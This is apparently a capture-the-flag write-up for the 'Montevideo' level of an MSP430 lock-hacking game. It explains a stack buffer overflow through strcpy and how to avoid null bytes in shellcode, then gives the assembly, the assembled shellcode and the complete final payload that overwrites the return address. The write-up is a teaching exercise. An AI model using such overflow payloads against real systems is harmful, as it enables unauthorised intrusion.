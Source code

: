 # Montevideo

This challenge has the same problem as the prior ones (more input allowed that desired) <br>

It also tries to complicate our life by using **memset** in order to clear **0x64** (d:100) bytes in which the values are initially read into. It also clears more than can be read, which is **0x30** (d:48). <br>

The problem is that the values are copied to the stack (which, at the moment of copy, are placed at **0x43ee**) thus the memset does not hit these values <br>

So we can use the same approach as before, but now we have another problem. **Strcpy** stops at null bytes and a bunch of instructions will produce them (including ```push 0x7f```) <br>

My intial approach did not went very well. It comprised the following steps:
- craft gets call
- input 7f directly to sp
- call INT (0x454c in this program)

it seems alright, but why it didn't work? well, the gets function manipulates the stack on leaving, messing our last call instruction 

```assembly
45a0 <getsn>
45a0:  0e12           push	r14
45a2:  0f12           push	r15
45a4:  2312           push	#0x2
45a6:  b012 4c45      call	#0x454c <INT>
45aa:  3150 0600      add	#0x6, sp        <- Will mess our idea
45ae:  3041           ret
```

So, i tried a bunch of other ideas but the last one was the one (no shit sherlock !) :D <br>

So, i tried to find a value close to **0x7f** already in memory. Turns out that, in every execution, the address **0x445e** has **0x7e** stored 

```s
4450:   fcff 3e40 fcff 0e54 0e12 0f12 3012 7e00   ..>@...T....0.~.
```

So, we can just do this:
- increment the value at the address (by using other very cool trick that'll show in a sec)
- push the value within the address into the stack
- call INT

This idea, to get access to that address, originated from what i've seen from these challenges code:
- zero out a register
- assume that it is a memory location
- index access whatever you want

```assembly
xor r12, r12        ; zero r12
inc 0x445e(r12)     ; access that address with indexing and increment it
push 0x445e(r12)    ; push the value
call #0x454c        ; call INT
```

By assembling this small piece of code, we have the following shellcode: ```0cec9c535e441c125e44b0124c45```  <br>

In the same way as the prior challenges, we need some additional padding and address to when **ret** is hit. In my case it went like so:
```
$shellcode=0cec9c535e441c125e44b0124c45
$padding=4141
$address=ee43

# payload =  0cec9c535e441c125e44b0124c454141ee43
```
